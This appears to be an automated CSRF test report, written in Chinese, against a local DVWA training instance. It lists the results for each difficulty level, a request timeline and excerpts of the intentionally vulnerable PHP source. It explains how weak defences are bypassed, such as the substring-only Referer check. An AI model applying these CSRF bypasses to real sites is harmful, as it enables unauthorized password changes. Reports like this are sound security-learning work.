








# DVWA CSRF 自动测试报告

## 摘要
- 目标: `http://127.0.0.1/dvwa/`
- 模块: `CSRF` (`vulnerabilities/csrf/`)
- 难度顺序: `low -> medium -> high -> impossible`
- 结果: `low` 可利用; `medium` 可利用; `high` 阻止盲跨站 CSRF，但在同源可读 fresh `user_token` 时可变更密码; `impossible` 未观察到独立 CSRF 漏洞。
- 账号恢复: 每个难度结束后都用 `test_credentials.php` 验证 `admin/password` 可用。

## 范围与环境
- 授权范围: 本地 DVWA `http://127.0.0.1/dvwa/`
- 源码路径: `D:\phpStudy\PHPTutorial\WWW\DVWA`
- 输出语言: `zh-CN`
- 代理: 未使用 Burp/ZAP；所有流量直连本地 DVWA。
- 工具: `PowerShell`, `Python 3.11 requests`, `Node Playwright`, `npm.cmd`
- 报告目录: `D:\WorkSpace\综合实践5\dvwa-results\csrf-progression-20260602-103818`

## 难度推进
| 难度 | 状态 | 关键弱点/防御 | 请求数 | 耗时 | 停止/继续原因 |
| --- | --- | --- | ---: | ---: | --- |
| low | vulnerable | GET password-change endpoint has no anti-CSRF token, no Referer/Origin check, and no current-password check. | 10 | 0.301s |  |
| medium | vulnerable | Referer validation only checks whether HTTP_REFERER contains SERVER_NAME as a substring. | 11 | 0.416s |  |
| high | conditionally_exploitable_same_origin_token_required | Password change does not require current password, but a fresh anti-CSRF token is required. Blind cross-site CSRF is blocked unless another same-origin issue leaks the token. | 13 | 0.545s | 常规盲跨站 CSRF 被 fresh user_token 阻止；本次继续到 impossible 用于记录课程报告要求的无解原因。 |
| impossible | not_vulnerable | No standalone CSRF weakness observed; server requires fresh token and the current password before changing state. | 14 | 0.499s | fresh user_token + current password validation blocks CSRF. |

## 时间线
- `2026-06-02T10:44:52+08:00` +0.001s [setup] harness: start -> run initialized
- `2026-06-02T10:44:52+08:00` +0.035s [setup] Python/requests: GET login.php (get-login) -> status=200; markers=[]
- `2026-06-02T10:44:52+08:00` +0.096s [setup] Python/requests: POST login.php (post-login) -> status=200; markers=[]
- `2026-06-02T10:44:52+08:00` +0.099s [setup] auth: login -> authenticated=True
- `2026-06-02T10:44:52+08:00` +0.11s [low] Python/requests: GET security.php (get-security) -> status=200; markers=[]
- `2026-06-02T10:44:52+08:00` +0.138s [low] Python/requests: POST security.php (post-security) -> status=200; markers=[]
- `2026-06-02T10:44:52+08:00` +0.148s [low] Python/requests: GET security.php (verify-security) -> status=200; markers=[]
- `2026-06-02T10:44:52+08:00` +0.149s [low] security.php: set security level -> verified=True
- `2026-06-02T10:44:52+08:00` +0.15s [low] source-review: read low.php -> 5 relevant lines
- `2026-06-02T10:44:52+08:00` +0.196s [low] Python/requests: GET vulnerabilities/csrf/ (inspect-module) -> status=200; markers=[]
- `2026-06-02T10:44:52+08:00` +0.197s [low] live-page: inspect CSRF form -> fields=['password_new', 'password_conf', 'Change']; token_present=False
- `2026-06-02T10:44:52+08:00` +0.225s [low] Python/requests: POST vulnerabilities/csrf/test_credentials.php (baseline-current-password-valid) -> status=200; markers=["Valid password for 'admin'"]
- `2026-06-02T10:44:52+08:00` +0.27s [low] Python/requests: GET vulnerabilities/csrf/ (baseline-mismatch) -> status=200; markers=['Passwords did not match.']
- `2026-06-02T10:44:52+08:00` +0.305s [low] Python/requests: GET vulnerabilities/csrf/ (csrf-proof-no-token-no-referer) -> status=200; markers=['Password Changed.']
- `2026-06-02T10:44:52+08:00` +0.334s [low] Python/requests: POST vulnerabilities/csrf/test_credentials.php (verify-temp-password) -> status=200; markers=["Valid password for 'admin'"]
- `2026-06-02T10:44:52+08:00` +0.368s [low] Python/requests: GET vulnerabilities/csrf/ (restore-password) -> status=200; markers=['Password Changed.']
- `2026-06-02T10:44:52+08:00` +0.399s [low] Python/requests: POST vulnerabilities/csrf/test_credentials.php (verify-restored-password) -> status=200; markers=["Valid password for 'admin'"]
- `2026-06-02T10:44:52+08:00` +0.41s [medium] Python/requests: GET security.php (get-security) -> status=200; markers=[]
- `2026-06-02T10:44:53+08:00` +0.439s [medium] Python/requests: POST security.php (post-security) -> status=200; markers=[]
- `2026-06-02T10:44:53+08:00` +0.453s [medium] Python/requests: GET security.php (verify-security) -> status=200; markers=[]
- `2026-06-02T10:44:53+08:00` +0.454s [medium] security.php: set security level -> verified=True
- `2026-06-02T10:44:53+08:00` +0.455s [medium] source-review: read medium.php -> 6 relevant lines
- `2026-06-02T10:44:53+08:00` +0.506s [medium] Python/requests: GET vulnerabilities/csrf/ (inspect-module) -> status=200; markers=[]
- `2026-06-02T10:44:53+08:00` +0.507s [medium] live-page: inspect CSRF form -> fields=['password_new', 'password_conf', 'Change']; token_present=False
- `2026-06-02T10:44:53+08:00` +0.537s [medium] Python/requests: POST vulnerabilities/csrf/test_credentials.php (baseline-current-password-valid) -> status=200; markers=["Valid password for 'admin'"]
- `2026-06-02T10:44:53+08:00` +0.583s [medium] Python/requests: GET vulnerabilities/csrf/ (probe-no-referer) -> status=200; markers=["That request didn't look correct."]
- `2026-06-02T10:44:53+08:00` +0.629s [medium] Python/requests: GET vulnerabilities/csrf/ (probe-external-referer) -> status=200; markers=["That request didn't look correct."]
- `2026-06-02T10:44:53+08:00` +0.678s [medium] Python/requests: GET vulnerabilities/csrf/ (csrf-proof-weak-referer-substring) -> status=200; markers=['Password Changed.']
- `2026-06-02T10:44:53+08:00` +0.721s [medium] Python/requests: POST vulnerabilities/csrf/test_credentials.php (verify-temp-password) -> status=200; markers=["Valid password for 'admin'"]
- `2026-06-02T10:44:53+08:00` +0.771s [medium] Python/requests: GET vulnerabilities/csrf/ (restore-password) -> status=200; markers=['Password Changed.']
- `2026-06-02T10:44:53+08:00` +0.816s [medium] Python/requests: POST vulnerabilities/csrf/test_credentials.php (verify-restored-password) -> status=200; markers=["Valid password for 'admin'"]
- `2026-06-02T10:44:53+08:00` +0.824s [high] Python/requests: GET security.php (get-security) -> status=200; markers=[]
- `2026-06-02T10:44:53+08:00` +0.849s [high] Python/requests: POST security.php (post-security) -> status=200; markers=[]
- `2026-06-02T10:44:53+08:00` +0.863s [high] Python/requests: GET security.php (verify-security) -> status=200; markers=[]
- `2026-06-02T10:44:53+08:00` +0.864s [high] security.php: set security level -> verified=True
- `2026-06-02T10:44:53+08:00` +0.866s [high] source-review: read high.php -> 16 relevant lines
- `2026-06-02T10:44:53+08:00` +0.927s [high] Python/requests: GET vulnerabilities/csrf/ (inspect-module) -> status=200; markers=[]
- `2026-06-02T10:44:53+08:00` +0.928s [high] live-page: inspect CSRF form -> fields=['password_new', 'password_conf', 'Change', 'user_token']; token_present=True
- `2026-06-02T10:44:53+08:00` +0.958s [high] Python/requests: POST vulnerabilities/csrf/test_credentials.php (baseline-current-password-valid) -> status=200; markers=["Valid password for 'admin'"]
- `2026-06-02T10:44:53+08:00` +1.004s [high] Python/requests: GET vulnerabilities/csrf/ (probe-missing-token) -> status=200; markers=[]
- `2026-06-02T10:44:53+08:00` +1.095s [high] Python/requests: GET vulnerabilities/csrf/ (probe-wrong-token) -> status=200; markers=[]
- `2026-06-02T10:44:53+08:00` +1.127s [high] Python/requests: GET vulnerabilities/csrf/ (inspect-module) -> status=200; markers=[]
- `2026-06-02T10:44:53+08:00` +1.128s [high] live-page: inspect CSRF form -> fields=['password_new', 'password_conf', 'Change', 'user_token']; token_present=True
- `2026-06-02T10:44:53+08:00` +1.176s [high] Python/requests: GET vulnerabilities/csrf/ (token-aware-password-change) -> status=200; markers=['Password Changed.']
- `2026-06-02T10:44:53+08:00` +1.22s [high] Python/requests: POST vulnerabilities/csrf/test_credentials.php (verify-temp-password) -> status=200; markers=["Valid password for 'admin'"]
- `2026-06-02T10:44:53+08:00` +1.266s [high] Python/requests: GET vulnerabilities/csrf/ (inspect-module) -> status=200; markers=[]
- `2026-06-02T10:44:53+08:00` +1.267s [high] live-page: inspect CSRF form -> fields=['password_new', 'password_conf', 'Change', 'user_token']; token_present=True
- `2026-06-02T10:44:53+08:00` +1.315s [high] Python/requests: GET vulnerabilities/csrf/ (restore-password) -> status=200; markers=['Password Changed.']
- `2026-06-02T10:44:53+08:00` +1.361s [high] Python/requests: POST vulnerabilities/csrf/test_credentials.php (verify-restored-password) -> status=200; markers=["Valid password for 'admin'"]
- `2026-06-02T10:44:53+08:00` +1.366s [impossible] Python/requests: GET security.php (get-security) -> status=200; markers=[]
- `2026-06-02T10:44:53+08:00` +1.381s [impossible] Python/requests: POST security.php (post-security) -> status=200; markers=[]
- `2026-06-02T10:44:53+08:00` +1.391s [impossible] Python/requests: GET security.php (verify-security) -> status=200; markers=[]
- `2026-06-02T10:44:53+08:00` +1.392s [impossible] security.php: set security level -> verified=True
- `2026-06-02T10:44:53+08:00` +1.393s [impossible] source-review: read impossible.php -> 11 relevant lines
- `2026-06-02T10:44:54+08:00` +1.441s [impossible] Python/requests: GET vulnerabilities/csrf/ (inspect-module) -> status=200; markers=[]
- `2026-06-02T10:44:54+08:00` +1.441s [impossible] live-page: inspect CSRF form -> fields=['password_current', 'password_new', 'password_conf', 'Change', 'user_token']; token_present=True
- `2026-06-02T10:44:54+08:00` +1.488s [impossible] Python/requests: POST vulnerabilities/csrf/test_credentials.php (baseline-current-password-valid) -> status=200; markers=["Valid password for 'admin'"]
- `2026-06-02T10:44:54+08:00` +1.518s [impossible] Python/requests: GET vulnerabilities/csrf/ (probe-missing-token) -> status=200; markers=[]
- `2026-06-02T10:44:54+08:00` +1.549s [impossible] Python/requests: GET vulnerabilities/csrf/ (inspect-module) -> status=200; markers=[]
- `2026-06-02T10:44:54+08:00` +1.549s [impossible] live-page: inspect CSRF form -> fields=['password_current', 'password_new', 'password_conf', 'Change', 'user_token']; token_present=True
- `2026-06-02T10:44:54+08:00` +1.596s [impossible] Python/requests: GET vulnerabilities/csrf/ (probe-wrong-current-password) -> status=200; markers=['Passwords did not match or current password incorrect.']
- `2026-06-02T10:44:54+08:00` +1.642s [impossible] Python/requests: GET vulnerabilities/csrf/ (inspect-module) -> status=200; markers=[]
- `2026-06-02T10:44:54+08:00` +1.642s [impossible] live-page: inspect CSRF form -> fields=['password_current', 'password_new', 'password_conf', 'Change', 'user_token']; token_present=True
- `2026-06-02T10:44:54+08:00` +1.693s [impossible] Python/requests: GET vulnerabilities/csrf/ (legitimate-change-with-current-password) -> status=200; markers=['Password Changed.']
- `2026-06-02T10:44:54+08:00` +1.735s [impossible] Python/requests: POST vulnerabilities/csrf/test_credentials.php (verify-temp-password) -> status=200; markers=["Valid password for 'admin'"]
- `2026-06-02T10:44:54+08:00` +1.765s [impossible] Python/requests: GET vulnerabilities/csrf/ (inspect-module) -> status=200; markers=[]
- `2026-06-02T10:44:54+08:00` +1.766s [impossible] live-page: inspect CSRF form -> fields=['password_current', 'password_new', 'password_conf', 'Change', 'user_token']; token_present=True
- `2026-06-02T10:44:54+08:00` +1.817s [impossible] Python/requests: GET vulnerabilities/csrf/ (restore-password) -> status=200; markers=['Password Changed.']
- `2026-06-02T10:44:54+08:00` +1.86s [impossible] Python/requests: POST vulnerabilities/csrf/test_credentials.php (verify-restored-password) -> status=200; markers=["Valid password for 'admin'"]
- `2026-06-02T10:44:56+08:00` +4.321s [screenshots] Playwright: capture authenticated screenshots -> Playwright screenshot command failed; see stderr/stdout in report.json
- `2026-06-02T10:44:56+08:00` +4.323s [report] harness: write report -> D:\WorkSpace\综合实践5\dvwa-results\csrf-progression-20260602-103818\report.md
- `2026-06-02T10:50:36+08:00` +Nones [screenshots] Node Playwright: rerun authenticated screenshots after npm.cmd install playwright@1.60.0 -> returncode=0; captured 22 screenshots

## 源码分析
### low
- 文件: `D:\phpStudy\PHPTutorial\WWW\DVWA\vulnerabilities\csrf\source\low.php`
- 大小/修改时间: `1249` bytes, `2026-05-14T09:06:44+08:00`
- `3`: `if( isset( $_GET[ 'Change' ] ) ) {`
- `5`: `$pass_new  = $_GET[ 'password_new' ];`
- `6`: `$pass_conf = $_GET[ 'password_conf' ];`
- `11`: `$pass_new = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $pass_new ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));`
- `20`: `$html .= "<pre>Password Changed.</pre>";`
### medium
- 文件: `D:\phpStudy\PHPTutorial\WWW\DVWA\vulnerabilities\csrf\source\medium.php`
- 大小/修改时间: `1516` bytes, `2026-05-14T09:06:44+08:00`
- `3`: `if( isset( $_GET[ 'Change' ] ) ) {`
- `5`: `if( stripos( $_SERVER[ 'HTTP_REFERER' ] ,$_SERVER[ 'SERVER_NAME' ]) !== false ) {`
- `7`: `$pass_new  = $_GET[ 'password_new' ];`
- `8`: `$pass_conf = $_GET[ 'password_conf' ];`
- `13`: `$pass_new = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $pass_new ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));`
- `22`: `$html .= "<pre>Password Changed.</pre>";`
### high
- 文件: `D:\phpStudy\PHPTutorial\WWW\DVWA\vulnerabilities\csrf\source\high.php`
- 大小/修改时间: `2076` bytes, `2026-05-14T09:06:44+08:00`
- `5`: `$return_message = "Request Failed";`
- `7`: `if ($_SERVER['REQUEST_METHOD'] == "POST" && array_key_exists ("CONTENT_TYPE", $_SERVER) && $_SERVER['CONTENT_TYPE'] == "application/json") {`
- `10`: `if (array_key_exists("HTTP_USER_TOKEN", $_SERVER) &&`
- `11`: `array_key_exists("password_new", $data) &&`
- `12`: `array_key_exists("password_conf", $data) &&`
- `14`: `$token = $_SERVER['HTTP_USER_TOKEN'];`
- `15`: `$pass_new = $data["password_new"];`
- `16`: `$pass_conf = $data["password_conf"];`
- `21`: `array_key_exists("password_new", $_REQUEST) &&`
- `22`: `array_key_exists("password_conf", $_REQUEST) &&`
- `25`: `$pass_new = $_REQUEST["password_new"];`
- `26`: `$pass_conf = $_REQUEST["password_conf"];`
- `33`: `checkToken( $token, $_SESSION[ 'session_token' ], 'index.php' );`
- `47`: `$return_message = "Password Changed.";`
### impossible
- 文件: `D:\phpStudy\PHPTutorial\WWW\DVWA\vulnerabilities\csrf\source\impossible.php`
- 大小/修改时间: `2177` bytes, `2026-05-14T09:06:44+08:00`
- `3`: `if( isset( $_GET[ 'Change' ] ) ) {`
- `5`: `checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' );`
- `8`: `$pass_curr = $_GET[ 'password_current' ];`
